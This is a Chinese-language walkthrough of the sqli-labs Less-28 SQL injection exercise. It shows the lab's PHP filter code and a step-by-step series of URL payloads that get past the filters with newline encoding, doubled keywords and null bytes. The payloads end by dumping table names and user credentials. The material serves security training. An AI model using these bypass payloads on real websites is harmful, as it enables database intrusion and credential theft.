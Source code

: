 # Less28

这关过滤的是union select这个整体，源码如下：

~~~ php
$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
$id= preg_replace('/[--]/',"", $id);				//Strip out --.
$id= preg_replace('/[#]/',"", $id);					//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
~~~

注释绕过参考23关，空格用%0a绕过，union select绕过也很简单直接将这个整体双写即可。需要注意的是这里没有报错提示。



输入：

~~~ php
?id=2%27)%0aand%0a1=1;%00
~~~

![Less-28-01](./img/Less-28-01.png)



继续输入:

~~~ txt
?id=2%27)%0aand%0a1=2;%00
~~~

![Less-28-02](./img/Less-28-02.png)



输入:

~~~ txt
?id=2%27)%0aorder%0aby%0a3;%00
~~~

![Less-28-03](./img/Less-28-03.png)



输入：

~~~ txt
?id=2%27)%0aorder%0aby%0a4;%00
~~~

![Less-28-04](./img/Less-28-04.png)



输入：

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,3;%00
~~~

![Less-28-05](./img/Less-28-05.png)



继续输入:

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,database();%00
~~~

![Less-28-06](./img/Less-28-06.png)



继续输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='security');%00
~~~

![Less-28-07](./img/Less-28-07.png)



继续输入:

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='security'%0aand%0atable_name='users');%00
~~~

![Less-28-08](./img/Less-28-08.png)



输入：

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(username,password)%0afrom%0ausers);%00
~~~

![Less-28-09](./img/Less-28-09.png)



其中’**%27**’可以被url解码为‘ **单引号**，而**%0a**被解码为**换行符**，而%00则被url解码为 **ASCII 值为0的字符**，即 **NUL（空字符）**

